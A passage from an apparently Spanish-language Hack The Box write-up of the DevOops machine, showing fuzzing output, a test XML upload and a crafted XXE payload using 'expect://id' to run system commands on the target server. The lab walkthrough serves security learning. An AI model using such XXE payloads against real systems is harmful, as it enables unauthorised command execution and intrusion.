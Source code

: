 ```bash
Total time: 0
Processed Requests: 507
Filtered Requests: 505
Requests/sec.: 0
```

Tenemos dos recursos: `feed` y `upload`; por lo tanto, vamos a echarles un ojo. Vemos que para  `feed` tenemos el la misma imagen que observamos anteriormente y para `upload` se ve que podemos subir un archivo y nos indican *XML elements: Author, Subject, Content*, asi que debe ser un archivo xml que debe contener dichos elementos. Para observar que hace el sitio, vamos a crear un archivo de prueba:

```xml
<elements>
        <Author>K4miyo</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```

Y vamos a subirlo al servidor:

![""](/assets/images/htb-devoops/devoops-xml.png)

Vemos que nos nuestra nuestra información de prueba y además tenemos un recurso donde almacena dicho archivo `/uploads/test.xml`. A este punto ya debemos estar pensando en un ***[XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) (XML External Entity)***. Asi que vamos a modificar nuestro archivo para obtener ejecución de comandos a nivel de sistema. (**Nota**: Para evitar problemas del lado del servidor y que no nos interprete la información, debemos cambiar el nombre del archivo).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<elements>
        <Author>&xxe;</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```
